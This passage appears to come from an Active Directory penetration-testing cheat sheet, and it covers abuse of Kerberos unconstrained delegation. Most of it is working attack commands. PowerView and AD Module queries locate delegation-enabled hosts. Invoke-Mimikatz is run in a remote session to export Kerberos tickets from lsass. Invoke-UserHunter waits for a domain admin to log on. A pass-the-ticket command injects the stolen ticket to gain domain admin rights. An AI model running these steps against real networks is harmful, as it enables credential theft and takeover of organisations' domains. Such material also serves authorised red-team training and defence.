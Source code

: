 #### Unconstrained Delegation
<a href="https://adsecurity.org/wp-content/uploads/2015/08/Visio-KerberosUnconstrainedDelegation-visio.png">
  <img height=350 src="https://adsecurity.org/wp-content/uploads/2015/08/Visio-KerberosUnconstrainedDelegation-visio.png" />
</a>

Allows the first hop server to request access to any service or computer in the domain.  
* Discover domain computers which have unconstrained delegation enabled
```
Get-NetComputer -Unconstrained (PowerView)
Get-ADComputer -Filter {TrustedForDelegation -eq $True} (AD Module)
Get-ADUser -Filter {TrustedForDelegation -eq $True} (AD Module)
```

* Verify Local Admin Access, therefore, you need to have a user that has local administrator access on the server.  
```
Find-LocalAdminAccess
```
```
$sess = New-PSSession -ComputerName <hostname>
Invoke-Command -FilePath C:\Tools\Invoke-Mimikatz.ps1 -Session $sess
Enter-PSSession -Session $sess
```

*  Run the following mimikatz command in the new PowerShell session running with the user to check if a domain admin ticket already exists, before Create a new directory to avoid overwriting tickets from other users.  
```
mkdir user1
cd user1 
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
ls | select name
```

* If you don't have a domain admin ticket and you have to wait or trick a DA to access a resource on the server, use this trick:
```
Invoke-UserHunter -ComputerName dcorp-appsrv -Poll 100 -UserName Administrator -Delay 5 -Verbose
```

* export tickets  
```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
ls | select name
```

* Reuse the ticket by injecting it into lsass to get DA privileges:  
```
Invoke-Mimikatz -Command '"kerberos::ptt [0;a925ff]-2-0-60a10000-Administrator@krbtgt-EXAMPLE.OKCORP.LOCAL.kirbi"'
```

### Constrained Delegation
<a href="https://en.hackndo.com/assets/uploads/2019/02/constrained_delegation_schema.png" >
<img height=500 src="https://en.hackndo.com/assets/uploads/2019/02/constrained_delegation_schema.png" />
</a>
